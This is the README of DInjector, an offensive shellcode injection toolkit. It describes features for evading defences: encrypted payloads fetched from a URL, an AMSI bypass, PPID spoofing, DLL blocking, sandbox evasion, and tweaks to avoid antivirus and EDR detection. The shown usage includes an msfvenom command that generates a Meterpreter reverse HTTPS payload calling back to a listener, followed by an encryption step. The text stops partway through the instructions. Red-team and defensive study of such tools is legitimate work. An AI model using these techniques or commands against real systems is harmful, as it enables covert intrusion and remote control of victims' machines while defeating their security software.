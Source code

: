 DInjector
==========

```
     (    (
     )\ ) )\ )                   )             (   (  (
    (()/((()/(     (    (     ( /(    (        )\ ))\ )\
     /(_))/(_))(   )\  ))\ (  )\())(  )(      (()/((_|(_)
    (_))_(_))  )\ |(_)/((_))\(_))/ )\(()\      ((_))  _
     |   \_ _|_(_/( !(_)) ((_) |_ ((_)((_)     _| | || |
     | |) | || ' \)) / -_) _||  _/ _ \ '_|  _/ _` | || |
     |___/___|_||_|/ \___\__| \__\___/_|   (_)__,_|_||_|
                 |__/-----------------------------------
                                                K E E P
                                                C A L M
                                                  A N D
                                       D / I N 💉 E C T
                                      S H E L L C O D E
```

This repository is an accumulation of my code snippets for various **shellcode injection** techniques using fantastic [D/Invoke](https://thewover.github.io/Dynamic-Invoke/) API by @TheWover and @FuzzySecurity.

Features:

* Fully ported to D/Invoke API
* Encrypted payloads which can be invoked from a URL or passed in base64 as an argument
* Built-in AMSI bypass
* PPID spoofing and block non-Microsoft DLLs (stolen from [TikiTorch](https://github.com/rasta-mouse/TikiTorch), write-up is [here](https://offensivedefence.co.uk/posts/ppidspoof-blockdlls-dinvoke/))
* Sandbox detection & evasion

:information_source: Based on my testings the DInvoke NuGet [package](https://www.nuget.org/packages/DInvoke/) itself is being flagged by many commercial AV/EDR solutions when incuded as an embedded resource via [Costura.Fody](https://www.nuget.org/packages/Costura.Fody/) (or similar approaches), so I've shrinked it a bit and included from [source](https://github.com/TheWover/DInvoke) to achieve better OpSec.

## Usage

1. Compile the project in VS.
2. Generate a shellcode for your favourite C2:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
```

3. [Encrypt](encrypt.py) the shellcode:

```console
~$ encrypt.py shellcode.bin -p 'Passw0rd!' -o enc
```

4. Serve the encrypted shellcode and prepare C2 listener:
